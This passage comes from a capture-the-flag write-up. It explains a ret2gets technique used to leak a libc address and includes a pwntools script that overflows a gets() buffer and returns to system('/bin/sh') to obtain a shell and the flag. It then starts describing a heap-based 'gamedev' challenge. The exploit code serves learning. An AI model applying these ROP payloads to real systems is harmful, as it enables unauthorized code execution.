 Here we send in some `a`'s to fill up the stack space, a `ret` gadget for some stack alignment, and then we start the meat and potatoes of our ROP chain. We send in the first call to `gets()` to populate RDI with the `_IO_lock_t` struct. The second call to `gets()` allows us to write into that struct up to the address of the `TLS` struct. Then, we call `puts()` to print out that address to us and finally we pass in another `ret` gadget for stack alignment and return to `main()` for the next bit of our exploit. 

Now that we have libc things are pretty straightforward. We're back in main so we can simply overflow the `gets()` buffer again to do our traditional ROP chain. We'll find a `pop rdi` gadget and the address of a `/bin/sh` string in libc, 
and then we'll return to system. The rest of the exploit can be found below. 

```python
pop_rdi = 0x00000000000277e5 + libc.address
binsh = next(libc.search(b"/bin/sh"))
payload2 = flat([
    'a' * offset,
    pop_rdi,
    binsh,
    ret,
    libc.symbols['system']
    ])

p.sendlineafter(b'2. Multiplayer\n', b'1')
p.sendlineafter(b'name:', payload2)
p.sendlineafter(b'2. Creative', b'1')
p.sendlineafter(b'2. Exit', b'2')

p.interactive()

# lactf{miiineeeee_diaaaaamoooonddsssssss_ky8cnd5e}
```
And then we get the flag! Was a fun challenge and a cool application of the ret2gets technique. 

# gamedev | 108 Solves 

>You've heard of rogue-likes, but have you heard of heap-likes?

This challenge took me a little bit to reason through. It's a linked list like challenge where each entry in the list can contain data and pointers to other "levels". Here is the basic structure. 

```c
struct Level *start = NULL;
struct Level *prev = NULL;
struct Level *curr = NULL;

struct Level
{
    struct Level *next[8];
    char data[0x20];
};
```
